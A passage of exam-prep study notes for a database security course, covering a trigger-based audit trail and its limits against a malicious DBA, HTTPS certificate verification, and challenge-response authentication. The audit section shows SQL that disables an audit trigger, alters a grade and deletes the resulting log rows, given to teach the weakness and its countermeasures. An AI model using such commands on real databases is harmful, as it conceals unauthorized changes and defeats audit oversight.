        :OLD.ID, :OLD.course_id, :OLD.sec_id, :OLD.semester, :OLD.year, :OLD.grade,
        NULL, NULL, NULL, NULL, NULL, NULL
    );
END;
```

##### Part b. Vulnerability Analysis: Can It Guarantee Logging Against a Malicious DBA?
**Answer: NO.** The trigger-based audit trail implementation **cannot** guarantee that updates made by a malicious Database Administrator will be captured or preserved.

###### Concrete Reasons for Circumvention:
1. **Trigger Disabling / Dropping:** A DBA holds superuser privileges (`ALTER TABLE`, `DROP TRIGGER`). A malicious DBA can temporarily disable the trigger before executing unauthorized modifications, and re-enable it afterward:
   ```sql
   ALTER TABLE takes DISABLE TRIGGER audit_takes_update;
   UPDATE takes SET grade = 'A' WHERE ID = '2310035';
   ALTER TABLE takes ENABLE TRIGGER audit_takes_update;
   ```
   No audit record will be generated.
2. **Direct Tampering with the Audit Table:** Because the DBA has complete administrative control over all relations, they can execute the illicit update (which fires the trigger) and then delete the resulting audit log:
   ```sql
   DELETE FROM takes_trail WHERE modified_by = 'malicious_dba';
   ```
3. **Session Context Impersonation:** A DBA can manipulate session variables or spoof the value returned by `user_id()`, framing a different legitimate user.
4. **Direct Binary / Disk Modification:** A DBA with operating system access can alter database storage files (`.dbf`) or bypass logging mechanisms entirely.

###### Industry Countermeasures for True Non-Repudiation:
- **Write-Once-Read-Many (WORM) Storage:** Streaming audit records immediately over a secure socket to an immutable, write-only logging appliance.
- **Separation of Duties (Dual Control):** Restricting DBA accounts so they cannot modify audit tables; only a separate, independent *Security Auditor* role holds read access to logs.
- **Cryptographic Hash Chains & Blockchain:** Chaining audit records using cryptographic hashes ($H_{i} = \text{SHA-256}(H_{i-1} \parallel \text{Record}_i)$) published to public ledgers or external monitoring servers.

#### 3. RUET Exam Insights & Examiner Notes
- **Common Mistake:** Stating that triggers cannot be bypassed because they are "automatic." Emphasize that triggers run within the database engine and are subordinate to the DBA's administrative privileges.

---

### Exercise 9.25 · Public-Key Infrastructure, X.509 Certificates, and Phishing Defense

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.9.3 & Section 9.9.4
> - **Type:** Regular Exercise (Cryptographic Protocols & Network Security)
> - **Keywords:** HTTPS, TLS, Digital Certificates, Certificate Authority (CA), Public Key, DNS spoofing.
> - **RUET Relevance:** High. Foundational for understanding application security, web authentication, and public-key infrastructure.

**Question (Silberschatz 7e Exercise 9.25).**  
Hackers may be able to fool you into believing that their web site is actually a web site (such as a bank or credit card web site) that you trust. This may be done by misleading email, or even by breaking into the network infrastructure and rerouting network traffic destined for, say `mybank.com`, to the hacker’s site. If you enter your user name and password on the hacker’s site, the site can record it and use it later to break into your account at the real site. When you use a URL such as `https://mybank.com`, the HTTPS protocol is used to prevent such attacks. Explain how the protocol might use digital certificates to verify authenticity of the site.

#### 1. Core Principles & Concept Overview
Network infrastructure is vulnerable to **DNS cache poisoning, ARP spoofing, and BGP route hijacking**, where an attacker reroutes IP packets intended for `mybank.com` to a malicious server under the attacker's control.
**HTTPS (HTTP over TLS)** thwarts this attack by combining asymmetric public-key cryptography with a hierarchical **Public-Key Infrastructure (PKI)** rooted in trusted Certificate Authorities (CAs).



#### 2. Detailed Step-by-Step Solution

##### Step 1: Anatomy of an X.509 Digital Certificate
A digital certificate issued to `mybank.com` contains:
1. **Subject Domain:** The fully qualified domain name (e.g., `CN=mybank.com`).
2. **Subject Public Key ($E_{\text{bank}}$):** The bank's public encryption key.
3. **Issuer Name:** The identity of the trusted Certificate Authority (e.g., DigiCert, Let's Encrypt).
4. **Validity Dates:** Not Before and Not After timestamps.
5. **Digital Signature of the CA ($S_{\text{CA}}$):**
   $$
   S_{\text{CA}} = \text{Encrypt}_{D_{\text{CA}}}(H(\text{Certificate Data}))
   $$
   where $D_{\text{CA}}$ is the CA's private signing key, and $H$ is a cryptographic hash (e.g., SHA-256).

##### Step 2: The Chain of Trust Verification
1. Web browsers and operating systems come pre-installed with a **Trust Store** containing the public keys of accredited **Root Certificate Authorities** ($E_{\text{root}}$).
2. When the user navigates to `https://mybank.com`, the server sends its certificate chain (Server Cert $\to$ Intermediate CA $\to$ Root CA).
3. The browser verifies the CA's digital signature by decrypting $S_{\text{CA}}$ using the CA's known public key:
   $$
   \text{ComputedHash} = H(\text{Certificate Data}), \quad \text{ExtractedHash} = \text{Decrypt}_{E_{\text{CA}}}(S_{\text{CA}})
   $$
   If $\text{ComputedHash} = \text{ExtractedHash}$, the certificate is mathematically guaranteed to be authentic and untampered.

##### Step 3: Defense Against Network Rerouting / Masquerading Attacks
Suppose a hacker successfully hijacks DNS or network routing, diverting packets intended for `mybank.com` to the hacker's rogue machine:

- **Scenario A (Hacker presents a certificate for `hacker.com`):**  
  The browser compares the URL domain in the address bar (`mybank.com`) with the Subject / Subject Alternative Name (SAN) inside the certificate (`hacker.com`). Because they mismatch, the browser immediately blocks access, displaying an invalid certificate warning.

- **Scenario B (Hacker presents the intercepted public certificate of `mybank.com`):**  
  The certificate itself is public, so the hacker can easily download and present `mybank.com`'s valid certificate to the browser. The browser's domain and signature checks will pass.  
  **However, the TLS Handshake requires proof of possession of the corresponding private key ($D_{\text{bank}}$):**
  1. In the TLS handshake (e.g., TLS 1.3 or Diffie-Hellman Key Exchange), the server must digitally sign the handshake transcript using the private key $D_{\text{bank}}$, or decrypt a pre-master secret encrypted with $E_{\text{bank}}$.
  2. Because the private key $D_{\text{bank}}$ is stored exclusively in the bank's secure hardware and has never been leaked, the hacker **cannot compute the cryptographic proof**.
  3. The TLS handshake aborts before any HTTP traffic, session data, or login credentials can be transmitted.

Thus, HTTPS and digital certificates prevent credential theft during traffic hijacking.

#### 3. RUET Exam Insights & Examiner Notes
- **Key Technical Nuance:** Distinguish between the **certificate** (which is public) and the **private key** (which remains secret). An attacker presenting a genuine certificate still fails because they lack the private key required to complete the TLS key exchange.

---

### Exercise 9.26 · Cryptographic Challenge–Response Authentication Mechanisms

> [!info] Exercise Metadata
> - **Source:** Silberschatz 7e Chapter 09 (*Application Development*), Section 9.9.3
> - **Type:** Regular Exercise (Authentication Protocols & Cryptography)
> - **Keywords:** Challenge–response, nonce, replay attack, eavesdropping, asymmetric cryptography.
> - **RUET Relevance:** High. Explains how modern systems authenticate without ever transmitting plaintext passwords across networks.

**Question (Silberschatz 7e Exercise 9.26).**  
Explain what is a challenge–response system for authentication. Why is it more secure than a traditional password-based system?

#### 1. Core Principles & Concept Overview
- **Traditional Password-Based System:** The client sends the password $P$ directly across the wire (even over TLS, the plaintext password enters the application process memory).
- **Challenge–Response System:** The server issues an unpredictable, one-time random number (a **challenge** or **nonce** $R$). The client proves possession of the secret (password or private key) by returning a cryptographic transformation of $R$. The secret itself is **never transmitted over the network**.

```text
Client (User Alice)                               Server (Database)
      |                                                  |
      |------------ 1. Login Request ("Alice") --------->|
      |                                                  | Generates Random Nonce R
      |<----------- 2. Challenge (Nonce R) --------------|
      |                                                  |
Computes:                                                |
Resp = HMAC(K_Alice, R)                                  |
      |                                                  |
      |------------ 3. Response (Resp) ----------------->|
                                                         | Computes: Expected = HMAC(K_Alice, R)
                                                         | Compares Expected == Resp
                                                         | If match: AUTHENTICATED!
```

#### 2. Detailed Step-by-Step Solution

##### A. Protocol Mechanics of a Challenge–Response System
A challenge–response exchange operates as follows:

1. **Initiation:** The client sends an unauthenticated connection request containing its identifier (e.g., username `Alice`).
2. **Challenge Generation:** The server generates a cryptographically secure, random, non-repeating number called a **nonce** (number used once) $R$, logs $R$ in temporary session state, and transmits $R$ to the client.
3. **Cryptographic Response Computation:**
   - **Symmetric Secret Scheme:** Using a shared secret key $K$ (derived from the user's password via a key derivation function like PBKDF2), the client computes:
     $$
     \text{Response} = \text{HMAC}_K(R) \quad \text{or} \quad \text{Encrypt}_K(R)
     $$
   - **Public-Key / Asymmetric Scheme (e.g., FIDO2 / Smart Card):** The client signs the challenge using its private key $D_{\text{Alice}}$:
     $$
     \text{Response} = \text{Sign}_{D_{\text{Alice}}}(R) = \text{Encrypt}_{D_{\text{Alice}}}(H(R))
     $$
4. **Verification:** The client transmits the calculated $\text{Response}$ back to the server.
5. **Validation:**
   - In symmetric systems: The server computes $\text{HMAC}_K(R)$ using its stored key and verifies equality.
   - In asymmetric systems: The server verifies the signature using Alice's registered public key $E_{\text{Alice}}$. If valid, the user is authenticated; the nonce $R$ is immediately invalidated.

##### B. Why It is Fundamentally More Secure Than Traditional Password Systems

| Security Vulnerability | Traditional Password System | Challenge–Response System |
| :--- | :--- | :--- |
| **Network Eavesdropping / Sniffing** | If TLS is terminated, compromised, or intercepted by a rogue proxy, an eavesdropper captures the plaintext password directly. | The secret is **never transmitted across the network**. An eavesdropper sees only the random nonce $R$ and the resulting hash $\text{Response}$. |
| **Replay Attacks** | An eavesdropper intercepting a transmitted password (or static password hash) can replay that exact payload to log in later. | **Immune to Replay Attacks.** The nonce $R$ is used exactly once. An eavesdropper replaying $\text{Response}_1$ will be rejected because the server generates a fresh challenge $R_2 \ne R_1$ for subsequent sessions. |
| **Server-Side Credential Theft** | If the server stores plaintext passwords or weak hashes, a database dump exposes all user passwords. | With public-key challenge-response, the server stores **only public keys**. Stealing the server's database yields zero private credentials. |
| **Hardware Token Integration** | Passwords must be typed on keyboards, vulnerable to hardware and software keyloggers. | Private keys can be stored inside tamper-resistant hardware security chips (YubiKey, TPM, Smart Card). The hardware signs $R$ internally; the private key never leaves the chip. |
| **Offline Dictionary Attacks** | Eavesdropping a transmitted password hash allows an attacker to mount offline cracking attacks against dictionary words. | Without knowing the fresh nonce $R$ in advance, precomputed rainbow table attacks are rendered computationally useless. |

#### 3. RUET Exam Insights & Examiner Notes
- **Key Definition:** Always define **nonce** as a "cryptographically secure, single-use random number."
- **Replay Attack Focus:** Explaining how dynamic nonces prevent replay attacks is the core point RUET examiners look for when grading 3–5 mark questions on authentication protocols.

---

## 4. Synthesis & Key Takeaways for ECE 2215

1. **Defense-in-Depth:** Robust database security combines network layers (TLS/HTTPS, digital certificates), application-level controls (session protection, salted password hashing, connection pooling), and database-level protections (fine-grained VPD row-level security, triggers, encryption at rest).
2. **Monotonic vs. Non-Monotonic Authorization (VPD):** Appending security predicates $\land P$ to user queries usually restricts results to a subset. However, in queries containing **negation** (`NOT EXISTS`, `EXCEPT`) or **outer joins**, row-level security predicates can cause non-monotonic inversions, producing tuples that were absent in the unconstrained query.
3. **Administrative Boundaries:** Trigger-based audit trails protect against unauthorized user modifications, but they cannot defend against superusers (DBAs) who have the privilege to disable triggers and purge audit tables. Real-world audit integrity requires separation of duties and tamper-evident append-only logging.
